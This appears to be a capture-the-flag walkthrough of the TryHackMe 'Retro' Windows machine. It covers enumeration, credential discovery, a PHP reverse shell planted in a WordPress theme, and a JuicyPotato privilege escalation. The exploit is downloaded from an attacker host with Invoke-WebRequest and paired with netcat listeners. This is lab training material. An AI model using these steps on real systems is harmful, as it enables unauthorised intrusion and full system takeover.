retro
THM: Retro
Nmap Scan

Ports Open: 80 (Web Server), 3389 (RDP)
Gobuster Scan

Directories Found: retro
Manual Website Enumeration

We manually enumerate through the website to find any useful information.
We find a wordpress login page. (http://10.10.200.238/retro/wp-login.php)
Also, all the posts in the webpage are done by someone named Wade
Upon trying the same as username in wordpress login we confirm that Wade is indeed a valid user in the wordpress CMS.
http://10.10.200.238/retro/index.php/2019/12/09/ready-player-one/#comment-2
Upon checking the recent comments, we find an intresting note.

We get a password like word: parzival
Credentials Found:
Username: Wade
Password: parzival
RDP Login
xfreerdp /dynamic-resolution +clipboard /scale:140 /cert:ignore /v:10.10.200.238 /u:Wade /p:'parzival'

We get the (user.txt) user flag on the desktop.
Wordpress Login
We try to login to wordpress page. Login was successful. We are inside the wordpress management console now.

Foothold Using Themes in Wordpress Management Console
We see 4 themes in Apperance ---→ Themes

We select Twenty Sixteen to insert our php reverse shell.
Note: Here we need php reverse shell for windows
https://github.com/ivan-sincek/php-reverse-shell
Open the theme in Apperance ---→ Theme Editor
Select any php page. I preferably selected the “Twenty Sixteen: Main Index Template (index.php)”

1.) We replace the existing code with the windows php reverse shell and change the IP and Port in the code accordingly to point to our local attacker machine.
2.) Update file on the bottom of the page.
3.) Then we start netcat listener in our attacker machine.
rlwrap nc -lvnp 7777
4.) Open Apperance ---→ Themes and do Live Preview on Twenty Sixteen, we will have gained a connection in our netcat listener.

Privilege Escalation Using SeImpersonatePrivilege

As we can see the “SeImpersonatePrivilege” is enabled. We did some research.
The method captured in CybeXRay guides uses meterpreter. i created a meterpreter payload using msfvenom and got a meterpreter shell. However, the technique didn't work.
So i searched online and found the solution as below.
Usually if the machine is a Windows 10 with version 1809 or higher, or a Windows Server 2019, we can use something like Rogue Potato attack to escalate privileges. Otherwise, we can try a Juicy Potato attack. I am not going to enter into details regarding this type of attack, but in order for it to be possible, we need a low privilege account with one of the following privileges:
‘SeImpersonatePrivilege’
‘SeAssignPrimaryTokenPrivilege’.

So we conclude that the machine is running Windows Server 2016 (From RDP Session/Our netcat shell) and the user have privileges to leverage our access to SYSTEM using something like a Juicy Potato privilege escalation attack.
We get the exploit form : https://github.com/ohpe/juicy-potato/releases/tag/v0.1
We upload the exploit using a local python webserver and download & run in public (C:\Users\Public\) directory.
Once the code runs we get administrator privileges.
On Attacker
python2 -m SimpleHTTPServer 80
On Target
cd C:\Users\public
powershell -c Invoke-WebRequest -Uri http://10.11.72.31/JuicyPotato.exe -OutFile JuicyPotato.exe

Running the Exploit

We need the Mandatory arguments to run the exploit.
-t : * (For all)
-p: Create a reverse shell program which the exploit will run as administrator (Do using msfvenom and transfer to target machine)
-l: We can use 9999 for listen port that exploit will use.
JuicyPotato.exe -t * -p shell.exe -l 9998


Now we can get the root flag in the Administrator's desktop.
Thanks!!